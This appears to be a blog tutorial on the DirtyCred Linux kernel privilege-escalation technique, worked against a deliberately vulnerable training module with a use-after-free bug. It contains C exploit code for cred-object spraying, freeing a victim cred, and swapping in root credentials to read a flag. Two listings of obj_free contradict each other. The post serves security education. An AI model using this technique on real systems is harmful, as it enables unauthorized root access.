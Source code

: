 ```yaml
---
title: Linux Kernel Exploitation - DirtyCred
date: 2025-04-29
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain DirtyCred, a universal and data-only exploitation technique that allows us to escalate privileges without a write primitive. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-cred) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_READ`, and `CMD_FREE`. These commands are used to allocate, read from, and free objects defined as follows:
```c
#define OBJ_SIZE    0xc0

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` internally uses `kmem_cache_zalloc`. This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
Also, note that `kfree` is used instead of `kmem_cache_free` in `obj_free`. This is intentional, as we will use it later to free cred objects:
```c
static long obj_free(int id) {
    kfree(objs[id]);
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. By performing cross-cache attack explained in the [previous post](https://r1ru.github.io/posts/1/), we can overlap victim objects with arbitrary kernel objects. However, we only have a read primitive, so it is difficult to control RIP. Therefore, in this post, we will take a data-only approach using DirtyCred.

## DirtyCred
The main idea of DirtyCred is to swap non-root credentials with root credentials. In this post, we target `struct cred`, which is allocated from a dedicated cache called cred. By performing cross-cache attack, we can overlap victim objects with cred objects. Since we can free victim cred objects (via `obj_free`), by spraying root cred objects, we can achieve root privileges.

## Exploitation
The initial steps are the same as in the [previous post](https://r1ru.github.io/posts/1/#exploitation). The difference is in the fourth step, where we allocate a large number of cred objects:
```c
char stack[NUM_CRED_SPRAY][0x1000];
for (int i = 0; i < NUM_CRED_SPRAY; i++) {
    assert(clone(try_read_flag, &stack[i][0xfff], CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, NULL) != -1);
}
```
Here, we use `clone` with some flags to allocate cred objects with low noise. This technique was discovered by willsroot. See their [blog post](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html) for more details.

`try_read_flag` is defined as follows. It waits for the atomic variable, `try` to be true, checks if it has root previleges, and then reads the flag:
```c
int try_read_flag(void *arg) {
    char flag[0x10] = {};
    int fd;

    while(atomic_load(&try) != true) {
        sleep(1);
    }

    if (geteuid() == 0) {
        fd = open("/dev/sdb", O_RDONLY);
        assert(fd != -1);
        assert(read(fd, flag, 0x10) != -1);
        printf("[+] Flag: %s\n", flag);
        atomic_store(&win, true);
        exit(0);
    } else {
        atomic_fetch_add(&num_failed, 1);
        exit(0);
    }   
}
```
Next, we locate the victim cred object and free it:
```c
int victim = -1;
struct cred cred = {};
for (int i = 0; i < num_spray; i += objs_per_slab * 2) {
    for (int j = i; j < i + objs_per_slab; j++) {
        obj_read(j, (char *)&cred, sizeof(cred));
        if (cred.uid == getuid() && cred.euid == geteuid()) {
            victim = j;
            printf("[+] Freeing the victim object: id = %d\n", victim);
            obj_free(victim);
        }
    }
}
if (victim == -1) {
    puts("[-] Failed to locate the victim objects");
    exit(1);
}
```
Finally, we spray root cred objects, which causes the victim cred object freed in the previous step to be swapped with a root cred object:
```c
for (int i = 0; i < NUM_ROOT_CRED_SPRAY; i++) {
    int pid = fork();
    if (pid == 0) {
        char *argv[] = {"/bin/su", NULL};
        execve(argv[0], argv, NULL);
    }
}
sleep(1);

puts("\n[*] Attempting");
atomic_store(&try, true);
```
By running this exploit, we can see the flag:

![win](/assets/img/posts/2025-04-29-3/win.png)

## References
1. Zhenpeng Lin, Yuhang Wu, and Xinyu Xing. 2022. DirtyCred: Escalating Privilege in Linux Kernel. In Proceedings of the 2022 ACM SIGSAC Conference on Computer and Communications Security (CCS '22). Association for Computing Machinery, New York, NY, USA, 1963–1976. https://doi.org/10.1145/3548606.3560585
2. willsroot. 2022. Reviving Exploits Against Cred Structs - Six Byte Cross Cache Overflow to Leakless Data-Oriented Kernel Pwnage. https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html